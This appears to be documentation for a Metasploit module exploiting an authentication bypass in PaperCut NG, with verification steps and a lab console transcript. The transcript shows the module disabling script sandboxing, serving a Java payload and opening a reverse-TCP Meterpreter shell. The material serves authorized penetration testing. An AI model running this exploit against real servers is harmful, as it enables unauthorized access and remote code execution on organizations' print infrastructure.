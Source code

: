 *Caveat: When first starting the server or after completing the installation, at least one user needs to login. I think this has something
to do with getting the license manager into the correct state (i.e. loading the license). When this is not yet done then the Authentication
Bypass is still functional leading to a "Target Vulnerable" message during `check`. However, when attempting to select the
"\[Template Printer\]" a redirect to the About page occurs instead. Ensuring a logon can be done by using the "Login" button presented on
the SetupCompleted page used for the bypass. This scenario is not covered in the module as it is unlikely to be an issue on any network
that is currently in use.*


## Verification Steps

1. `./msfconsole -q`
2. `use multi/http/papercut_ng_auth_bypass`
3. `set RHOSTS [target]`
4. `run`

## Scenarios

### Tested on Linux x64 with PaperCut NG Version 22.0.8.65201
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node0cwd0h7aut351pzjcifwvdyg25.node0
[+] The target is vulnerable.
[*] Setting server option 'print-and-device.script.enabled' to 'Y') was 'N'
[*] Setting server option 'print.script.sandboxed' to 'N') was 'Y'
[*] Using URL: http://10.0.4.101:8080/rYrjrI0
[*] Server started.
[*] Sending payload for requested uri: /rYrjrI0.jar
[*] Sending payload for requested uri: /rYrjrI0.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:46224) at 2023-05-11 01:13:29 +0000
[*] Server stopped.
[*] rolling back 'print.script.sandboxed' to 'Y'
[*] Setting server option 'print.script.sandboxed' to 'Y') was 'N'
[*] rolling back 'print-and-device.script.enabled' to 'N'
[*] Setting server option 'print-and-device.script.enabled' to 'N') was 'Y'

meterpreter >
```
Note: Sandboxing is enabled by default in this version, scripting must be enabled and sandboxing must be disabled.
